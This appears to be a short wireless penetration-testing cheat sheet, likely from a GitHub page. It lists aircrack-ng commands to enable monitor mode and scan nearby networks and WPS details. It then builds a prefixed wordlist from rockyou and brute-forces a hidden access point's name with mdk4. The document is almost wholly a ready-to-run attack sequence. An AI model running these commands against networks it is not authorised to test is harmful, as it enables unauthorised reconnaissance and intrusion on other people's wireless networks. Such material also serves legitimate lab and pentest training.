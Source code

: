### Setup 

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Identify the network

Identify the network by launching an airodump scan:
```bash
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon --wps
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```


### Brute force attack

A brute force attack can be performed to guess the AP ESSID. In this example, all networks have the "wifi-" prefix, a custom wordlist must be generated:
```bash
cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
```

Switch to channel 11:
```bash
iwconfig wlan0mon channel 11
```

Use mdk4 to brute force the AP name:
```bash
mdk4 wlan0mon p -t <BSSID> -f ~/wifi-rockyou.txt
```
